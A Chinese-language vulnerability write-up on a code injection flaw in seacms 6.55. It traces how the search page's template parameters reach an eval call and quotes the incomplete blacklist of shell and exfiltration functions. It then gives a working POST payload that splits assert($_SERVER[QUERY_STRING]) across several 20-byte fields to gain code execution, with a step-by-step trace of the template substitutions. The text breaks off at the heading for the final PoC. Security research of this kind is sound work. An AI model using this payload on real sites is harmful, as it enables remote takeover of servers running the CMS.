





# seacms 6.55 代码注入漏洞

通过sublime查找关键字eval。



通过搜索，在include/main.class.php下的parseIf中发现了eval函数的身影。



这里的逻辑主要是解析{if:}{end if}标签代码，把if语句的条件判断部分取出来然后用eval函数去执行，然后在3161-3163行找到了黑名单过滤方法

```php
   foreach($iar as $v){
          $iarok[] = str_replace(array('unlink','opendir','mysqli_','mysql_','socket_','curl_','base64_','putenv','popen(','phpinfo','pfsockopen','proc_','preg_','_GET','_POST','_COOKIE','_REQUEST','_SESSION','eval(','file_','passthru(','exec(','system(','shell_'), '@.@', $v);
      }
```

既然是通过黑名单过滤，就意味着过滤不完整。搜索那里调用这个parseIf()，发现了search.php



这里用到了大量的str_place()函数来替换原始模板。

由于之前版本中也存在代码注入的问题，官方的修复方法是

```php
  global $dsql,$cfg_iscache,$mainClassObj,$page,$t1,$cfg_search_time,$searchtype,$searchword,$tid,$year,$letter,$area,$yuyan,$state,$ver,$order,$jq,$money,$cfg_basehost;
      
      $orderarr=array('id','idasc','time','timeasc','hit','hitasc','commend','commendasc','score','scoreasc');
   if(!(in_array($order,$orderarr))){$order='time';}
```

将order参数设置了一个白名单，这样就无法通过order 参数注入代码。

在search.php中针对传入的参数进行了xss过滤。这些参数也可以通过变量覆盖的方式传入，然后这些参数还用了removeXSS(),addslashes()函数去过滤，而且截取了前20个字节，即每个参数只能传入20个字节长度的限制。

```php
  $searchword = RemoveXSS(stripslashes($searchword));
  $searchword = addslashes(cn_substr($searchword,20));
  $searchword = trim($searchword);
  
  $jq = RemoveXSS(stripslashes($jq));
  $jq = addslashes(cn_substr($jq,20));
  
  $area = RemoveXSS(stripslashes($area));
  $area = addslashes(cn_substr($area,20));
  
  $year = RemoveXSS(stripslashes($year));
  $year = addslashes(cn_substr($year,20));
  
  $yuyan = RemoveXSS(stripslashes($yuyan));
  $yuyan = addslashes(cn_substr($yuyan,20));
  
  $letter = RemoveXSS(stripslashes($letter));
  $letter = addslashes(cn_substr($letter,20));
  
  $state = RemoveXSS(stripslashes($state));
  $state = addslashes(cn_substr($state,20));
  
  $ver = RemoveXSS(stripslashes($ver));
  $ver = addslashes(cn_substr($ver,20));
  
  $money = RemoveXSS(stripslashes($money));
  $money = addslashes(cn_substr($money,20));
  
  $order = RemoveXSS(stripslashes($order));
  $order = addslashes(cn_substr($order,20));
```

然而在刚才说的黑名单的情况下，甚至连最常用的assert都没有过滤。所以这里可以通过`_SERVER`绕过。

```php
  searchtype=5&searchword={if{searchpage:year}&year=:as{searchpage:area}}&area=s{searchpage:letter}&letter=ert{searchpage:lang}&yuyan=($_SE{searchpage:jq}&jq=RVER{searchpage:ver}&&ver=[QUERY_STRING]));/*
```

跟入之后，我们就看看如何构造的payload。

原来模板中的html代码如下:

```html
  <meta name="keywords" content="{seacms:searchword},海洋CMS" />
```

代码中的替换是这样的：

```php
  if(intval($searchtype)==5)
      {
          $tname = !empty($tid)?getTypeNameOnCache($tid):'全部';
          $jq = !empty($jq)?$jq:'全部';
          $area = !empty($area)?$area:'全部';
          $year = !empty($year)?$year:'全部';
          $yuyan = !empty($yuyan)?$yuyan:'全部';
          $letter = !empty($letter)?$letter:'全部';
          $state = !empty($state)?$state:'全部';
          $ver = !empty($ver)?$ver:'全部';
          $money = !empty($money)?$money:'全部';
          $content = str_replace("{searchpage:type}",$tid,$content);
          $content = str_replace("{searchpage:typename}",$tname ,$content);
          $content = str_replace("{searchpage:year}",$year,$content);
          $content = str_replace("{searchpage:area}",$area,$content);
          $content = str_replace("{searchpage:letter}",$letter,$content);
          $content = str_replace("{searchpage:lang}",$yuyan,$content);
          $content = str_replace("{searchpage:jq}",$jq,$content);
          if($state=='w'){$state2="完结";}elseif($state=='l'){$state2="连载中";}else{$state2="全部";}
          if($money=='m'){$money2="免费";}elseif($money=='s'){$money2="收费";}else{$money2="全部";}
          $content = str_replace("{searchpage:state}",$state2,$content);
          $content = str_replace("{searchpage:money}",$money2,$content);
          $content = str_replace("{searchpage:ver}",$ver,$content);
```

所以我们可以构造post字段如下：

```php
  searchtype=5&searchword={if{searchpage:year}&year=:as{searchpage:area}}&area=s{searchpage:letter}&letter=ert{searchpage:lang}&yuyan=($_SE{searchpage:jq}&jq=RVER{searchpage:ver}&&ver=[QUERY_STRING]));/*
```

原来的模版是：



然后替换模版之后就是

```php
  <meta name="keywords" content="{if{searchpage:year},海洋CMS" />
  //替换year
  <meta name="keywords" content=":as{searchpage:area}},海洋CMS" />
  
  //替换area
  <meta name="keywords" content="s{searchpage:letter},海洋CMS" />
  
  //替换letter
  <meta name="keywords" content="ert{searchpage:lang},海洋CMS" />
  
  //替换lang
  <meta name="keywords" content="($_SE{searchpage:jq},海洋CMS" />
  
  //替换jq
  <meta name="keywords" content="RVER{searchpage:ver},海洋CMS" />
  
  //替换ver
  <meta name="keywords" content="[QUERY_STRING]));/*,海洋CMS" />
```

这样就拼好了后被以下代码解析出来的就是

```php
    if (strpos($content,'{subif:')=== false){
                  return $content;
                  }else{
                  $labelRule = buildregx("{subif:(.*?)}(.*?){end subif}","is");
                  $labelRule2="{elseif";
                  $labelRule3="{else}";
```

```php
  @eval("if(assert($_SERVER[QUERY_STRING]));/*xxxxx){\$ifFlag=true;}else{\$ifFlag=false;}");
```

所以最后poc



